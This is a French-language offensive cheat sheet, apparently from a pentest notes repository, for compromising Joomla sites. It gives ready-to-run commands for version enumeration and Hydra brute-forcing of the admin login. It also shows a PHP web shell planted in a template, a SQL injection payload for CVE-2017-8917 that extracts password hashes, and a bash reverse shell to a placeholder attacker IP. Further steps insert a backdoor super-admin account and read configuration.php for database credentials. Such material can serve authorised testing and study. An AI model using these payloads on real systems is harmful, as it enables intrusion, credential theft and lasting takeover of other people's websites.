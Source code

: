 # Joomla

Joomla est le deuxième CMS le plus populaire après WordPress, notamment utilisé pour des sites plus complexes.

## 🔍 Énumération

### Identification
```bash
# Vérifier robots.txt
curl -s $URL/robots.txt | grep -i "joomla\|administrator"

# Rechercher des marqueurs spécifiques
curl -s $URL | grep -i "joomla\|com_content"

# Vérifier le générateur dans les méta-tags
curl -s $URL | grep -i "name=\"generator\""
```

### Scan avec outils spécifiques
```bash
# JoomlaScan
python joomlascan.py -u $URL

# Avec droopescan
droopescan scan joomla --url $URL

# Joomscan
joomscan -u $URL
```

### Recherche de version
```bash
# Vérifier dans les fichiers de base
curl -s $URL/administrator/manifests/files/joomla.xml | grep -i "<version>"
curl -s $URL/language/en-GB/en-GB.xml | grep -i "<version>"

# Vérifier le README
curl -s $URL/README.txt | head -n 5

# Vérifier les fichiers de cache
curl -s $URL/plugins/system/cache/cache.xml | grep -i "<version>"
```

## 🔨 Exploitation

### Brute Force d'identifiants
```bash
# Avec joomla-brute
python joomla-brute.py -u $URL -w /usr/share/wordlists/rockyou.txt -usr admin

# Avec Hydra
hydra -l admin -P /usr/share/wordlists/rockyou.txt $URL_HOSTNAME http-post-form "/administrator/index.php:username=^USER^&passwd=^PASS^&option=com_login&task=login:Invalid username"
```

### Ajout de code malveillant via Template
```bash
# Après connexion en admin:
# 1. Aller dans Extensions > Templates
# 2. Sélectionner un template (ex: protostar)
# 3. Modifier un fichier (ex: error.php)
# 4. Ajouter le code:
<?php system($_GET['cmd']); ?>

# Tester l'exécution de commande
curl "$URL/templates/protostar/error.php?cmd=id"
```

### Exploitation des vulnérabilités spécifiques
```bash
# CVE-2015-8562 (RCE via User-Agent)
# Utiliser l'exploit: https://www.exploit-db.com/exploits/38977

# CVE-2017-8917 (SQLi)
curl -s "$URL/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 1 FROM (SELECT COUNT(*),CONCAT(CONCAT(username,0x3a,password),FLOOR(RAND(0)*2))x FROM joomla_users GROUP BY x)a)"

# CVE-2019-10945 (Directory Traversal)
python joomla_dir_trav.py --url "$URL/administrator/" --username admin --password password --dir /
```

## 🔐 Post-exploitation

### Obtention d'un reverse shell
```bash
# Via le template modifié
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/VOTRE_IP/4444 0>&1'"); ?>

# Obtenir le shell
nc -lvnp 4444
curl "$URL/templates/protostar/error.php"
```

### Création d'un super utilisateur
```bash
# Trouver les informations de connexion à la BDD
cat configuration.php | grep -E "user|password|db"

# Se connecter à la BDD
mysql -u $DBUSER -p$DBPASS $DBNAME

# Créer un nouvel utilisateur admin
INSERT INTO #__users (name, username, email, password, block) 
VALUES ('Hacker', 'hacker', 'hacker@example.com', '$2y$10$8/gZqrUDORcoN3iLmQKPceaotsKQFEEZXAE/OOe8iAx.IQNDkzQNa', 0);
# Ce hash correspond à 'password'

# Ajouter les droits administrateur
INSERT INTO #__user_usergroup_map (user_id, group_id) VALUES (LAST_INSERT_ID(), 8);
```

### Accès aux fichiers sensibles
```bash
# Télécharger configuration.php (contient les identifiants DB)
curl "$URL/templates/protostar/error.php?cmd=cat%20../../../configuration.php"

# Récupérer d'autres fichiers sensibles
curl "$URL/templates/protostar/error.php?cmd=find%20/var/www%20-name%20%22*config*%22%20-type%20f%202>/dev/null"
```

## ⚠️ Erreurs courantes & astuces
- Joomla stocke la configuration dans configuration.php (équivalent à wp-config.php)
- Le préfixe des tables peut varier (remplacer #__ par le préfixe correct)
- Les anciennes versions de Joomla sont particulièrement vulnérables
- Vérifiez les extensions tierces qui peuvent avoir leurs propres vulnérabilités
- L'administration est généralement accessible via /administrator/